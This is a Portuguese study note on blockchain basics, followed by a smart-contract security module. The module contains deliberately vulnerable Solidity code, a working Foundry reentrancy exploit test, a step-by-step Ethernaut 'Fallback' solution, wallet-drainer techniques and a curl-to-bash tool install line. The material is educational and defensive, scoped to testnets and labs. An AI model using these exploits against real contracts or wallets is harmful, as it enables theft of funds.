





# Blockchain

> [!quote] O Livro de Registro Distribuído
> *A blockchain é um livro de registro aberto que oferece descentralização, transparência, imutabilidade e segurança.*

---

## 📖 O que é Blockchain?

> [!info] Definição
> Blockchain é uma tecnologia de **registro distribuído** que é open-source, criptografada, P2P e permanente.

A palavra "blockchain" foi escrita pela primeira vez no white paper do Bitcoin em 2009 por **Satoshi Nakamoto**.

![[Recursos/Segurança da informação/Blockchain/blockchain.png|Conceito de blockchain]]

![[Recursos/Segurança da informação/Blockchain/blockchain-1.png|Estrutura de blocos]]

![[Recursos/Segurança da informação/Blockchain/blockchain-2.png|Cadeia de blocos]]

---

## ⚙️ Como Funciona uma Blockchain?

> [!tip] Processo de Transação

1. Usuário **inicia uma transação**
2. Um **bloco é alocado** para esta transação
3. O bloco é **transmitido** para toda a rede
4. Todos os nós **registram** a transação
5. A segurança criptográfica **valida** o bloco
6. O bloco é **incorporado** na cadeia

![[Recursos/Segurança da informação/Blockchain/blockchain-3.png|Processo de validação]]

---

## ✅ Benefícios da Blockchain

> [!success] Vantagens Principais

- **Liquidação mais rápida**: comparado a métodos tradicionais
- **Imutabilidade**: dados não podem ser alterados após confirmação
- **Segurança**: mais segura que sistemas tradicionais
- **Transparência**: todas as transações são públicas
- **Descentralização**: sem autoridade central

![[Recursos/Segurança da informação/Blockchain/blockchain-4.png|Benefícios]]

---

## 🔒 Blockchain Pública vs Privada

| Aspecto | Pública | Privada |
|---------|---------|---------|
| **Acesso** | Sem permissão | Com permissão |
| **Controle** | Ninguém controla | Autoridade gerencia |
| **Exemplo** | Bitcoin, Ethereum | Hyperledger Fabric |
| **Uso** | Criptomoedas | Empresas |

---

## 🕸️ Redes: Centralizada vs Descentralizada vs Distribuída

![[Recursos/Segurança da informação/Blockchain/blockchain-5.png|Tipos de redes]]

| Tipo | Descrição |
|------|-----------|
| **Centralizada** | Todos os nós sob uma única autoridade |
| **Descentralizada** | Sem autoridade central, todos podem participar |
| **Distribuída** | Nós independentes interconectados |

---

## 📝 Contratos Inteligentes

> [!info] Smart Contracts
> Contratos inteligentes são semelhantes a documentos legais, criando termos entre duas partes de forma **automática** e **criptográfica**.

![[Recursos/Segurança da informação/Blockchain/blockchain-6.png|Smart contracts]]

### Como Funcionam

![[Recursos/Segurança da informação/Blockchain/blockchain-7.png|Funcionamento]]

1. Duas partes definem os termos do contrato
2. O contrato é codificado na blockchain
3. Quando as condições são atendidas, o contrato executa automaticamente
4. Não há necessidade de intermediários

### Características Principais

- Liquidação automatizada
- Registro imutável
- Sem terceiros envolvidos

### Vantagens

- Total transparência
- Sem burocracia
- Resultados confiáveis e garantidos

![[Recursos/Segurança da informação/Blockchain/blockchain-8.png|Vantagens dos smart contracts]]

### Desvantagens

> [!warning] Limitações

- **Erros humanos**: contratos são feitos por humanos
- **Confidencialidade**: informações podem vazar
- **Contratos-fantasma**: bugs podem criar comportamentos inesperados

### Aplicações

- Atividades de negociação
- Cadeias de suprimentos
- Proteção de direitos autorais
- Mercado imobiliário
- Votação governamental
- **Internet das Coisas (IoT)**

---

## 🌐 Web 3.0: O Sucessor da Web 2.0

> [!tip] A Terceira Geração da Internet
> A Web 3.0 aproveitará a blockchain para criar uma rede verdadeiramente **descentralizada**.

### Diferenças

| Aspecto | Web 2.0 | Web 3.0 |
|---------|---------|---------|
| **Dados** | Servidores centralizados | Distribuídos |
| **Controle** | Empresas | Usuários |
| **Privacidade** | Dados coletados | Dados próprios |
| **Monetização** | Plataformas lucram | Usuários lucram |

### Benefícios da Web 3.0

- **Sem permissão**: não há autoridade centralizada
- **Sem monopólio**: descentralização impede dominação
- **Privacidade**: dados pertencem aos usuários
- **dApps**: aplicações descentralizadas

![[Recursos/Segurança da informação/Blockchain/blockchain-9.png|Ecossistema Web 3.0]]

![[Recursos/Segurança da informação/Blockchain/blockchain-10.png|Comparação]]

![[Recursos/Segurança da informação/Blockchain/blockchain-11.png|Evolução da web]]

---

## 💾 Blockchain vs Banco de Dados

![[Recursos/Segurança da informação/Blockchain/blockchain-12.png|Comparação]]

| Aspecto | Blockchain | Banco de Dados |
|---------|------------|----------------|
| **Autoridade** | Descentralizada | Centralizada |
| **Escrita** | Append-only (imutável) | CRUD (Create, Read, Update, Delete) |
| **Integridade** | Garantida por criptografia | Depende da aplicação |
| **Confiança** | Distribuída | No administrador |

![[Recursos/Segurança da informação/Blockchain/blockchain-13.png|Diferenças]]

---

## 🪙 Tipos de Tokens

![[Recursos/Segurança da informação/Blockchain/blockchain-14.png|Tipos de tokens]]

| Tipo | Descrição | Exemplo |
|------|-----------|---------|
| **Payment Tokens** | Usados como dinheiro para transações | Bitcoin, Litecoin |
| **Utility Tokens** | Acesso a bens/serviços específicos | Filecoin |
| **Security Tokens** | Emitidos por ICOs para investimento | Tokens de empresas |
| **NFTs** | Artigos únicos e insubstituíveis | Arte digital, colecionáveis |

---

## 🌍 Meio Ambiente e Criptomoedas

![[Recursos/Segurança da informação/Blockchain/blockchain-15.png|Impacto ambiental]]

### Argumentos Contra

- Extremo custo elétrico comparado a sistemas tradicionais
- Ineficiente e não escalável até o momento

### Argumentos a Favor

- Mineradores buscam energia mais barata (frequentemente renovável)
- Sistemas bancários tradicionais usam mais energia no total
- Muitas moedas migrando para **Proof of Stake** (mais eficiente)

![[Recursos/Segurança da informação/Blockchain/blockchain-16.png|Comparação de consumo]]

![[Recursos/Segurança da informação/Blockchain/blockchain-17.png|Evolução]]

**Leituras recomendadas:**
- [Elon Musk diz que o bitcoin tem 'grande custo' para o meio ambiente](https://www.istoedinheiro.com.br/elon-musk-diz-que-o-bitcoin-tem-grande-custo-para-o-meio-ambiente/)
- [O bitcoin é um vilão do meio ambiente?](https://neofeed.com.br/blog/home/o-bitcoin-e-um-vilao-do-meio-ambiente-um-estudo-da-xp-responde-essa-pergunta/)

---

## 📖 Glossário

> [!info] Termos Importantes
> É difícil para iniciantes conhecerem todos os termos da blockchain.

[📚 Dicionário da Blockchain - 50+ Definições](https://101blockchains.com/pt/definicoes-da-blockchain/)

---

## 🔐 Segurança em Blockchain e Web3 (Módulo Ofensivo/Defensivo)

> [!warning] Aviso Legal e Ético
> Todo conteúdo ofensivo desta seção é aplicável **exclusivamente** em ambientes de laboratório, testnets (Sepolia, Goerli), contratos próprios ou plataformas CTF autorizadas como o **Ethernaut** e o **Damn Vulnerable DeFi**.
> Realizar ataques contra contratos reais ou carteiras de terceiros sem autorização expressa configura crime tipificado no **Art. 154-A do Código Penal Brasileiro** (invasão de dispositivo informático), com pena de detenção de 1 a 4 anos, além de crimes contra o patrimônio (estelionato, furto qualificado). Autorização explícita e documentada é requisito obrigatório para qualquer teste.

---

### 🌐 O Panorama de Ameaças em 2025-2026

O ecossistema Web3 registrou perdas superiores a **US\$ 3,4 bilhões em 2025** e mais de **US\$ 750 milhões somente nos primeiros meses de 2026**, segundo dados da Chainalysis e relatórios de segurança publicados em 2026. Os maiores incidentes recentes incluem:

| Evento | Ano | Valor Perdido | Vetor Principal |
|--------|-----|---------------|-----------------|
| Bybit Exchange | 2025 | US\$ 1,5 bi | Comprometimento de chave privada (Lazarus Group/RPDC) |
| Kelp DAO | 2026 | US\$ 292 mi | Exploração de governança descentralizada |
| Drift Protocol | 2026 | US\$ 285 mi | Engenharia social sobre estrutura de governança |
| Monero (51% Attack) | Ago/2025 | Reorganização de 60 blocos | Ataque de 51% com reorg de 6 blocos de profundidade |
| Vários DeFi (flash loans) | 2024-2026 | Centenas de mi | Manipulação de oracle via flash loan |

> [!danger] Tendência 2026
> O OWASP Smart Contract Top 10: 2026, baseado em 122 incidentes deduplados de 2025, totalizou **US\$ 905,4 milhões** em perdas por vulnerabilidades de contrato inteligente. Problemas de controle de acesso lideram o ranking, seguidos de erros de lógica de negócio e reentrância em novas formas.

---

### 🗺️ Arquitetura de Ameaças: Visão Geral



---

### ⚠️ Vulnerabilidades de Smart Contracts: OWASP Top 10 (2026)

#### 1. Reentrância (Reentrancy Attack)

A reentrância é uma das vulnerabilidades mais antigas e mais devastadoras do ecossistema Ethereum. O ataque à DAO em 2016 drenou **US\$ 60 milhões** e causou o hard fork que originou o Ethereum Classic. Em 2025-2026, variantes como **reentrância cross-function** e **reentrância somente-leitura (read-only reentrancy)** seguem aparecendo em auditorias.

**Como funciona:**



**Código vulnerável (Solidity):**

```solidity
// VULNERAVEL: estado atualizado DEPOIS da transferencia
function withdraw(uint _amount) public {
    require(balances[msg.sender] >= _amount);
    (bool sent, ) = msg.sender.call{value: _amount}(""); // <-- re-entrada aqui
    require(sent, "Failed to send Ether");
    balances[msg.sender] -= _amount; // tarde demais
}
```

**Código seguro (padrão Checks-Effects-Interactions):**

```solidity
// SEGURO: estado atualizado ANTES da transferencia
function withdraw(uint _amount) public {
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] -= _amount; // Effects: primeiro
    (bool sent, ) = msg.sender.call{value: _amount}(""); // Interactions: depois
    require(sent, "Failed to send Ether");
}
```

| Variante | Descrição | Mitigação |
|----------|-----------|-----------|
| Reentrância simples | Callback no `fallback()` drena fundos | CEI pattern + ReentrancyGuard |
| Cross-function reentrancy | Duas funções do mesmo contrato compartilham estado | Mutex (lock) global |
| Read-only reentrancy | Re-entrada em `view` function causa leitura de estado inconsistente | Cuidado com protocolos que leem estado externo |
| Cross-contract reentrancy | Contrato B lê estado inconsistente do contrato A durante execução | Seguir CEI em todos os contratos integrados |

---

#### 2. Integer Overflow e Underflow

Antes do Solidity 0.8.x, operações aritméticas não revertiam em caso de overflow/underflow, resultando em comportamentos inesperados. Um saldo de `0` decrementado em `1` virava `2^256 - 1` (um número astronômico).

**Exemplo clássico (vulnerável em Solidity < 0.8):**

```solidity
// VULNERAVEL (antes do Solidity 0.8)
mapping(address => uint256) public balances;

function transfer(address _to, uint256 _value) public {
    // se balances[msg.sender] = 0 e _value = 1:
    // 0 - 1 = 2^256 - 1 (underflow!)
    balances[msg.sender] -= _value;
    balances[_to] += _value;
}
```

**Mitigação:**
- Usar **Solidity 0.8.x ou superior** (overflow/underflow revertidos automaticamente)
- Em versões antigas: biblioteca **SafeMath** da OpenZeppelin

---

#### 3. Falha de Controle de Acesso (Access Control)

A categoria **mais custosa de 2025** segundo o OWASP Smart Contract Top 10: 2026. Contratos que não verificam adequadamente quem pode chamar funções privilegiadas abrem brechas para qualquer endereço assumir controles de administração, sacar fundos ou pausar protocolos.

**Exemplo vulnerável:**

```solidity
// VULNERAVEL: qualquer um pode chamar initialize()
function initialize(address _owner) public {
    owner = _owner; // sem verificacao de "ja inicializado"
}
```

**Exploração típica:** o atacante chama `initialize()` após o deploy (antes do dono legítimo) e assume o controle.

**Padrões de defesa:**

| Padrão | Biblioteca | Quando usar |
|--------|-----------|-------------|
| `Ownable` | OpenZeppelin | Contratos simples com um único dono |
| `AccessControl` | OpenZeppelin | Múltiplos papéis (admin, operador, pauser) |
| `Initializable` + `onlyInitializing` | OpenZeppelin | Contratos upgradeable (proxy pattern) |
| `TimelockController` | OpenZeppelin | Operações críticas com delay obrigatório |

---

#### 4. Manipulação de Oracle (Oracle Manipulation)

Oracles são pontes que levam dados externos (preço de ativos, resultados de eventos) para dentro da blockchain. Quando um protocolo DeFi usa o preço de um pool de liquidez como oracle de preço (price oracle), um atacante com acesso a um **flash loan** pode distorcer temporariamente esse preço e enganar contratos de empréstimo, liquidação ou derivativos.

**Fluxo de um ataque de oracle via flash loan:**



**Caso real 2026:** Makina Protocol perdeu fundos porque o oráculo usava o preço spot de um pool de baixa liquidez, sem TWAP (Time-Weighted Average Price).

**Mitigações:**

| Estratégia | Descrição |
|-----------|-----------|
| **TWAP (Time-Weighted Average Price)** | Usar média ponderada por tempo, não preço spot |
| **Chainlink Price Feeds** | Oracle descentralizado com múltiplos nós independentes |
| **Circuit breakers** | Pausar protocolo se preço mudar além de X% em um bloco |
| **Múltiplos oracles** | Consenso entre 3+ fontes independentes |
| **Limites de empréstimo** | Reduzir exposição máxima por transação |

---

#### 5. Vulnerabilidades em Contratos Proxy e Upgrades

Contratos proxy permitem atualizar a lógica de um contrato sem mudar o endereço. Porém, a separação entre contrato proxy (armazena estado) e contrato de implementação (contém lógica) cria riscos únicos.

| Vulnerabilidade | Descrição | Exemplo de impacto |
|----------------|-----------|-------------------|
| **Storage collision** | Proxy e implementação usam os mesmos slots de storage para variáveis diferentes | Sobrescrever endereço do admin |
| **Uninitialized implementation** | Contrato de implementação deployado sem `initialize()` | Atacante chama `initialize()` na implementação diretamente |
| **Selfdestruct na implementação** | Se a implementação for destruída, proxy fica inutilizável | Perda total de fundos |
| **Função de upgrade sem controle de acesso** | Qualquer endereço pode trocar a implementação | Atacante substitui lógica por backdoor |

**Padrão seguro:** usar **UUPS (Universal Upgradeable Proxy Standard)** ou **Transparent Proxy** da OpenZeppelin com `TimelockController` para delays em upgrades.

---

#### 6. Flash Loans: Risco e Defesa

Flash loans são empréstimos não colateralizados que existem por uma única transação: o valor deve ser devolvido no mesmo bloco, senão a transação reverte automaticamente. Essa mecânica legítima (arbitragem, refinanciamento) é frequentemente usada para amplificar outros ataques.

> [!tip] Perspectiva Defensiva
> Flash loans em si não são vulnerabilidades: a falha está no protocolo-alvo. Um contrato bem auditado, com oracles robustos e verificações de estado, não deve ser vulnerável a flash loans.

**Proteção:** usar `msg.sender == tx.origin` apenas para bloquear flash loans de contratos (cuidado: quebra compatibilidade com carteiras inteligentes); preferir **limitação de slippage**, **TWAP oracles** e **rate limiting** por bloco.

---

### 🏴 Ataques à Camada de Consenso

#### Ataque de 51%

Em redes Proof of Work, quem controla mais de 50% do poder de processamento (**hashrate**) pode:

1. **Reorganizar a cadeia (reorg)**: substituir blocos já confirmados por uma cadeia alternativa secreta
2. **Double-spend**: gastar a mesma moeda duas vezes
3. **Censurar transações**: impedir que determinados endereços transacionem

> [!danger] Caso Real: Monero (Agosto 2025)
> Um pool de mineração executou um ataque de 51% contra a rede Monero em agosto de 2025, realizando uma reorganização de 6 blocos de profundidade e orphanando aproximadamente 60 blocos. Foi o ataque de 51% mais significativo em uma rede de médio porte nos últimos anos, provando que a ameaça é real, não apenas teórica.

**Custo estimado para atacar redes estabelecidas (2025):**

| Rede | Mecanismo | Custo estimado do ataque |
|------|-----------|--------------------------|
| Bitcoin | PoW (SHA-256) | Mais de US\$ 6 bilhões |
| Ethereum | PoS | Exige 33% do ETH em staking |
| Ethereum Classic | PoW | Menos de US\$ 10 milhões |
| Redes pequenas (nascentes) | PoW | US\$ 50 mil a US\$ 1 milhão |

**85% dos ataques de 51% bem-sucedidos ocorreram em blockchains nascentes**, com menos de 2 anos de existência.

#### Selfish Mining

Ataque em que um minerador com mais de ~33% do hashrate retém blocos recém-descobertos, publicando-os estrategicamente para invalidar o trabalho dos outros mineradores e aumentar sua proporção de recompensas acima do esperado pela sua quota de hashrate.

#### Eclipse Attack

O atacante isola um nó específico da rede, controlando todas as suas conexões de entrada e saída. O nó passa a enxergar apenas blocos e transações fornecidos pelo atacante, possibilitando double-spend direcionado ou censura seletiva.

---

### 🎣 Phishing de Carteira e Wallet Drainers

> [!danger] Ameaça em Alta em 2026
> Phishing e engenharia social representaram **US\$ 600 milhões** em perdas no primeiro semestre de 2025. Em abril de 2026, o mês com maior roubo de criptomoedas já registrado (mais de US\$ 629 milhões), operadores de drainers registraram sites falsos de "revogação de permissões" em horas após os maiores hacks, capturando usuários em pânico.

**Técnicas de Wallet Drainer:**

| Técnica | Descrição | Vetor |
|---------|-----------|-------|
| **Approve Phishing** | Induz a vítima a assinar `approve(atacante, MAX_UINT256)`, dando permissão ilimitada sobre um token ERC-20 | Sites falsos, links patrocinados |
| **Permit Phishing** | Usa a função `permit()` (EIP-2612) para obter aprovação off-chain sem custo de gas para a vítima | "Mint gratuito", airdrops falsos |
| **SetApprovalForAll** | Permissão total sobre todos os NFTs de uma coleção | Marketplaces falsos |
| **Fake Revoke Sites** | Sites que fingem "revogar permissões perigosas" mas na verdade pedem novas permissões | Twitter/X, Telegram |
| **Seed Phrase Phishing** | Páginas de suporte falso que pedem as 12/24 palavras da carteira | "Suporte MetaMask", Discord comprometido |

**Entre setembro de 2025 e janeiro de 2026, 20 contas no X (antigo Twitter) compartilharam mais de 75 dApps maliciosas** que drenavam carteiras de vítimas que interagiam com elas.

**Defesas:**



- **Revoke.cash** (legítimo): ferramenta para verificar e revogar permissões de contratos
- **Simuladores de transação**: Tenderly, Pocket Universe, Fire Extension
- **Hardware wallet**: Ledger, Trezor (chave privada nunca sai do dispositivo)
- **Verificar domínio**: phishing usa domínios parecidos (metamask.io vs metamask-io.com)

---

### 🔍 Ferramentas de Auditoria Ofensiva

> [!info] Princípio Fundamental
> No contexto de pentest em smart contracts, o objetivo não é explorar fundos reais, mas **identificar e reportar vulnerabilidades antes que atacantes o façam**. As ferramentas a seguir são usadas tanto por auditores defensivos quanto por pesquisadores de segurança.

#### Slither: Análise Estática

**Slither** é uma ferramenta de análise estática desenvolvida pela **Trail of Bits**, capaz de detectar mais de **40 tipos de vulnerabilidades** em contratos Solidity sem executá-los. É rápida (segundos para contratos complexos) e produz relatórios com nível de severidade.

```bash
# Instalação
pip install slither-analyzer

# Análise básica de um contrato
slither contrato.sol

# Análise com filtro de severidade
slither contrato.sol --filter-paths "openzeppelin" --exclude-dependencies

# Checklist de auditoria
slither contrato.sol --checklist

# Exportar relatório em JSON
slither contrato.sol --json resultado.json
```

**Categorias detectadas pelo Slither:**

| Categoria | Exemplos de Detectores |
|-----------|----------------------|
| Alta Severidade | Reentrância, uso arbitrário de `send`/`call`, self-destruct não protegido |
| Média Severidade | Variáveis não inicializadas, comparação incorreta de endereço |
| Baixa Severidade | Funções que deveriam ser `external`, variáveis de estado que podem ser `constant` |
| Informacional | Código morto, nomenclatura inconsistente |

#### Mythril: Execução Simbólica

**Mythril** usa **execução simbólica** e **SMT solving** para explorar todos os caminhos de execução possíveis de um contrato, encontrando vulnerabilidades que análise estática pode perder. Mais lento que o Slither, mas mais profundo.

```bash
# Instalação via pip
pip install mythril

# Análise de um contrato local
myth analyze contrato.sol

# Análise via endereço na mainnet (somente leitura, sem gastar gas)
myth analyze -a 0xCONTRATO_ADDRESS --rpc https://mainnet.infura.io/v3/SEU_KEY

# Saída em JSON
myth analyze contrato.sol -o json
```

**Comparativo Slither vs Mythril:**

| Critério | Slither | Mythril |
|----------|---------|---------|
| Velocidade | Muito rápido (segundos) | Lento (minutos a horas) |
| Técnica | Análise estática | Execução simbólica |
| Falsos positivos | Médio | Baixo |
| Cobertura | Ampla (40+ detectores) | Profunda (caminhos complexos) |
| Melhor para | Triagem inicial, CI/CD | Auditoria aprofundada |
| Linguagem | Python | Python |

#### Foundry: Framework de Teste e Exploit

**Foundry** (Forge + Cast + Anvil + Chisel) é o framework de desenvolvimento e teste de smart contracts mais usado em 2025-2026. Permite escrever exploits em Solidity puro, fazer fork da mainnet localmente e testar cenários complexos.

```bash
# Instalação
curl -L https://foundry.paradigm.xyz | bash
foundryup

# Criar projeto
forge init meu-projeto
cd meu-projeto

# Compilar
forge build

# Rodar testes
forge test

# Rodar testes com verbosidade (mostra traces de chamadas)
forge test -vvvv

# Fork da mainnet para testar contra contratos reais (somente leitura)
forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/SEU_KEY

# Interagir com contratos via linha de comando
cast call 0xCONTRATO "balanceOf(address)(uint256)" 0xENDERECO

# Enviar transacao (em testnet, com chave privada de conta de teste)
cast send 0xCONTRATO "transfer(address,uint256)" 0xDESTINO 1000 --private-key SEU_KEY_TESTNET
```

**Exemplo de exploit escrito em Foundry (Reentrância):**

```solidity
// test/ReentrancyExploit.t.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../src/VulnerableBank.sol";

contract AttackerContract {
    VulnerableBank public target;
    uint256 public constant ATTACK_AMOUNT = 1 ether;

    constructor(address _target) {
        target = VulnerableBank(_target);
    }

    // fallback dispara ao receber ETH: re-entra no withdraw
    receive() external payable {
        if (address(target).balance >= ATTACK_AMOUNT) {
            target.withdraw(ATTACK_AMOUNT);
        }
    }

    function attack() external payable {
        require(msg.value >= ATTACK_AMOUNT);
        target.deposit{value: ATTACK_AMOUNT}();
        target.withdraw(ATTACK_AMOUNT);
    }
}

contract ReentrancyTest is Test {
    VulnerableBank bank;
    AttackerContract attacker;
    address victim = address(0xBEEF);

    function setUp() public {
        bank = new VulnerableBank();
        attacker = new AttackerContract(address(bank));

        // vitima deposita 10 ETH no banco vulneravel
        vm.deal(victim, 10 ether);
        vm.prank(victim);
        bank.deposit{value: 10 ether}();
    }

    function testReentrancyExploit() public {
        vm.deal(address(attacker), 1 ether);
        uint256 bankBalanceBefore = address(bank).balance;
        
        attacker.attack{value: 1 ether}();
        
        uint256 bankBalanceAfter = address(bank).balance;
        console.log("Banco antes:", bankBalanceBefore);
        console.log("Banco depois:", bankBalanceAfter);
        
        // prova que o banco foi drenado
        assertEq(bankBalanceAfter, 0);
    }
}
```

#### Outras Ferramentas Relevantes

| Ferramenta | Tipo | Uso |
|-----------|------|-----|
| **Echidna** | Fuzzer | Testa propriedades invariantes via fuzzing aleatório |
| **Manticore** | Execução simbólica | Exploração de caminhos complexos (Trail of Bits) |
| **4naly3er** | Análise estática | Relatórios formatados para submissão em audit contests |
| **Tenderly** | Simulação | Simular transações, debugar traces on-chain |
| **Etherscan** | Explorador | Verificar código-fonte, transações, eventos, permissões |
| **Revoke.cash** | Segurança | Auditar e revogar permissões ERC-20/NFT de carteiras |
| **Immunefi** | Bug bounty | Plataforma de reporte responsável de vulnerabilidades |

---

### 🛡️ Segurança Defensiva: Auditoria e Padrões Seguros

#### Processo de Auditoria de Smart Contracts



#### Padrões Seguros de Desenvolvimento Solidity

| Padrão | Descrição | Biblioteca/Recurso |
|--------|-----------|-------------------|
| **Checks-Effects-Interactions (CEI)** | Validar, atualizar estado, depois interagir externamente | Princípio nativo |
| **ReentrancyGuard** | Mutex que impede re-entrada | OpenZeppelin |
| **Ownable / AccessControl** | Controle de papéis e permissões | OpenZeppelin |
| **SafeERC20** | Wrappers seguros para transferências ERC-20 | OpenZeppelin |
| **Pausable** | Pausar emergencialmente o contrato | OpenZeppelin |
| **TimelockController** | Delay obrigatório antes de executar ações privilegiadas | OpenZeppelin |
| **Pull over Push** | Usuário saca fundos ativamente (em vez de contrato enviar) | Princípio nativo |
| **Minimal Proxy (ERC-1167)** | Clonar contratos com baixo custo, sem risco de storage collision | OpenZeppelin Clones |

#### Checklist Mínimo de Segurança Antes do Deploy

> [!check] Checklist de Deploy Seguro
> - [ ] Auditoria automatizada com Slither (zero findings de alta/crítica)
> - [ ] Auditoria manual por pelo menos um auditor externo
> - [ ] Testes de cobertura acima de 90% (linhas e branches) com Foundry/Hardhat
> - [ ] Fuzzing com Echidna para propriedades invariantes críticas
> - [ ] Revisão de todos os pontos de entrada externos (`external` e `public`)
> - [ ] Verificação de todos os oracles usados (TWAP? Múltiplas fontes?)
> - [ ] Limites de valor máximo por transação implementados
> - [ ] Mecanismo de pausa de emergência testado
> - [ ] Chaves de admin em multisig (Gnosis Safe, 3-de-5 no mínimo)
> - [ ] Timelock de 48h para upgrades e mudanças de parâmetros críticos
> - [ ] Programa de bug bounty publicado antes do lançamento (Immunefi)

---

### 🧪 Atividades Práticas em Testnet/Lab

> [!example] 🧪 Atividade 1: Resolver o Nível "Fallback" no Ethernaut (Testnet Sepolia)
>
> **Objetivo:** Assumir o ownership de um contrato vulnerável enviando uma transação especial, demonstrando falha de controle de acesso via `receive()`.
>
> **Ferramentas:** MetaMask (conta na testnet Sepolia), Ethernaut (ethernaut.openzeppelin.com), Console do Navegador ou Foundry.
>
> **Passo a passo:**
>
> 1. Acessar [https://ethernaut.openzeppelin.com](https://ethernaut.openzeppelin.com) e conectar a MetaMask na rede **Sepolia** (ETH de faucet grátis em sepoliafaucet.com).
> 2. Abrir o Nível 1 "Fallback" e clicar em "Get new instance" (deploy do contrato na testnet, sem custo real).
> 3. Abrir o console do navegador (F12) e inspecionar o contrato:
>    ```javascript
>    // ver o dono atual
>    await contract.owner()
>    // ver seu saldo no contrato
>    await contract.getContribution().then(v => v.toString())
>    ```
> 4. Contribuir com um valor mínimo para que `contributions[msg.sender] > 0`:
>    ```javascript
>    await contract.contribute({value: toWei('0.0001')})
>    ```
> 5. Enviar ETH diretamente ao contrato para acionar o `receive()` e assumir o ownership:
>    ```javascript
>    await sendTransaction({from: player, to: instance, value: toWei('0.0001')})
>    ```
> 6. Verificar que agora você é o owner:
>    ```javascript
>    await contract.owner() // deve retornar seu endereço
>    ```
> 7. Drenar os fundos (em testnet, sem valor real):
>    ```javascript
>    await contract.withdraw()
>    ```
> 8. Submeter o nível clicando em "Submit instance".
>
> **O que aprender:** a função `receive()` do contrato original só transferia ownership se `contributions[msg.sender] > contributions[owner]`, mas havia um atalho: qualquer contribuição via `receive()` com `msg.value > 0` e `contributions > 0` já transferia o controle. Falha de lógica de negócio + controle de acesso.
>
